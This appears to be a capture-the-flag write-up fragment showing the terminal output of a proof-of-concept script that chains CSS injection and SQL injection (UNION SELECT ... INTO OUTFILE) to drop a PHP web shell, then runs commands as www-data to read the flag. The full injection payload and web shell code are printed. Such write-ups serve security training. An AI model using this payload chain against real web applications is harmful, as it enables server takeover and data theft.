 ```plaintext
❯ python3 poc.py
[+] FILANAME : 367455.php
[+] MEMODATA : {'memoTitle': 'asdf', 'memoColor': 'aqua}.content{background: url(\'/check.php?id=9999999 union select concat(char(60),"?php echo system($_GET[\\\'cmd\\\']); ?",char(62)) into outfile "/tmp/367455.php"\')', 'memoContent': 'asdf'}

[+] Enable webshell!!
[+] Enter the command : id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
uid=33(www-data) gid=33(www-data) groups=33(www-data)
[+] Enter the command : pwd
/var/www/html
/var/www/html
[+] Enter the command : ls / | grep '^flag'
flag_47ef1a0fd43364198f2422159badba75
flag_47ef1a0fd43364198f2422159badba75
[+] Enter the command : cat /flag_47ef1a0fd43364198f2422159badba75
GoN{cH41N_0f_W3b_VuLn3r4b1l1t1E5}GoN{cH41N_0f_W3b_VuLn3r4b1l1t1E5}
[+] Enter the command : 
```
```plaintext
FLAG : GoN{cH41N_0f_W3b_VuLn3r4b1l1t1E5}
```

